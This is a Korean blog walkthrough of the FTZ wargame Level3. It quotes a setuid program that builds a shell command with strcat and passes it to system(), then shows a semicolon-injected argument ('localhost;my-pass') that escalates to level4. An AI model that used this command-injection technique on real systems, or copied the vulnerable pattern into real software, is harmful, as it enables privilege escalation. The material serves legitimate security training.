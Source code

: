 ```yaml
---
layout: post
title: FTZ Level3
categories: [Wargame]
comments: true
---
```


Level3의 힌트를 보자.

{% highlight c %}
[level3@ftz level3]$ cat hint
다음 코드는 autodig의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
int main(int argc, char **argv){
 
    char cmd[100];
 
    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }
 
    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");
 
    system( cmd );
 
}
 
이를 이용하여 level4의 권한을 얻어라.
 
more hints.
- 동시에 여러 명령어를 사용하려면?
- 문자열 형태로 명령어를 전달하려면?
{% endhighlight %}

autodig를 사용하라고 한다. `strcpy`와 `strcat`을 이용하여 cmd라는 배열에 최종적으로

```
"dig @'인자로 받은 문자열' version.bind chaos txt"
```

라는 문자열을 만들게 된다. 이 문제에서 dig는 별로 중요하지 않지만 dig는 인자로 받은 주소(네트워크 주소)에 대한 정보를 알려주는 명령어이다.

여기서 중요한 것은 힌트를 보게 되면 동시에 여러 명령어를 사용하려면 인데, 리눅스에서 동시에 여러 명령어를 사용하려면 `;`를 기준으로 사용하면 된다. 우리가 코딩을 할 때 ;을 기준으로 문장을 끝내듯이, 리눅스 명령을 사용할 때에도 ;을 기준점으로 사용하면 된다.

`pwd; cd /; pwd;`을 예시로 사용해 보겠다.


{% highlight bash %}
[level3@ftz level3]$ pwd; cd /; pwd
/home/level3
/
{% endhighlight %}

첫 pwd에 의해서 현재 디렉토리의 위치를 출력해 주고, 가운데 `cd /`에 의해 /디렉토리로 이동됬다. 그 후 마지막 `pwd`에 의해 /의 위치임을 출력하게 되었다. 이렇게 한번의 명령을 보낼 때 `;`을 기준으로 여러 명령을 보낼수 있다.

이점을 이용하여 이번 문제를 해결해 보겠다.

우선 파일의 위치를 검색한다.

{% highlight bash %}
[level3@ftz level3]$ find / -user level4 -perm +6000 2>/dev/null
/bin/autodig
{% endhighlight %}

파일을 실행 할 때 my-pass명령어를 실행 시키도록 하겠다. `;`을 사용하면 되므로, 인자를 `localhost;my-pass`로 주겠다.

```
[level3@ftz level3]$ /bin/autodig localhost;my-pass
; <<>> DiG 9.2.1 <<>> @localhost version.bind chaos txt
;; global options:  printcmd
;; connection timed out; no servers could be reached
 
Level3 Password is "can you fly?".
 ```

Level4의 password가 아닌 Level3의 password를 보여주고 있다. 명령이 제대로 들어가지 않은 것이다. 이 부분에서 hint의 2번째를 생각해야 한다.

문자열의 형태로 보낸다는 것은 우리가 적은 인자는 문자열의 형태가 아닌 ;를 기준으로 끊어 보내게 된다. 그러므로 /bin/autodig localhost라는 문장과 my-pass라는 문장을 끊어서 해석하게 된다.

그렇게 되면 /bin/autodig localhost가 끝나게 되면 my-pass를 실행시키게 되는데, setuid가 걸려있는 프로그램에서 실행시키는 것이 아닌 **현재 터미널**에서 실행시키게 되어 권한은 level3의 권한을 유지하고 있다.

문장을 한번에 보내기 위해서는 `""`를 사용하여 보내고자 하는 부분을 묶어 보내야 한다.

```
[level3@ftz level3]$ /bin/autodig "localhost;my-pass"
; <<>> DiG 9.2.1 <<>> @localhost
;; global options:  printcmd
;; connection timed out; no servers could be reached
 
Level4 Password is "           ".
```

이렇게 ""를 사용하게 되면 원하는 문자열로 보낼 수 있다.